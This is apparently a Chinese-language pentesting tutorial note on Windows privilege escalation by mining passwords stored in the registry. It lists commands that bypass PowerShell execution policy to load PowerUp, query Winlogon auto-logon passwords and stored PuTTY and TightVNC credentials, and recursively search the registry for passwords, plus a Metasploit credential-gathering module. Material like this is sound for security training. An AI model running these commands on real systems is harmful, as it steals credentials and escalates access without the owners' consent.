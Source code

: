 ```yaml
---
title: 注册表密码挖掘的提权
categories:
- windows
tags:
- windows
---
```

注册表密码挖掘的提权

视频教程：[https://www.acfun.cn/v/ac13017016](https://www.acfun.cn/v/ac13017016)
## 自动登陆密码
```
powershell -nop -ep bypass
Import-Module C:\Users\user\Desktop\PowerUp.ps1
Get-RegistryAutoLogon         
#查找注册表中自动登陆的密码
---
1.
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUsername
2.
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
```
## 软件密码
```
3.
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\BWP123F42 -v ProxyUsername
4.
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\BWP123F42 -v ProxyPassword
5.
reg query HKEY_CURRENT_USER\Software\TightVNC\Server /v Password
6.
reg query HKEY_CURRENT_USER\Software\TightVNC\Server /v PasswordViewOnly
C:\Users\User\Desktop\Tools\vncpwd\vncpwd.exe 加密后的密码
cmd面板 右键mark
```
## 编写注册表脚本自动登陆
```
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon]
"AutoAdminLogon"="1" 
"DefaultUserName"="自动登陆的用户名"
"DefaultDomainName"="0"
"DefaultPassword"="自动登陆的用户密码"
```
修改自动登陆的用户密码会发生什么？

## 搜索注册表所有密码
```
reg query HKLM /f passw /t REG_SZ /s
reg.exe query HKCU /f passw /t REG_SZ /s
```
## msfconsole
search post/windows/gather/credentials/windows_autologin
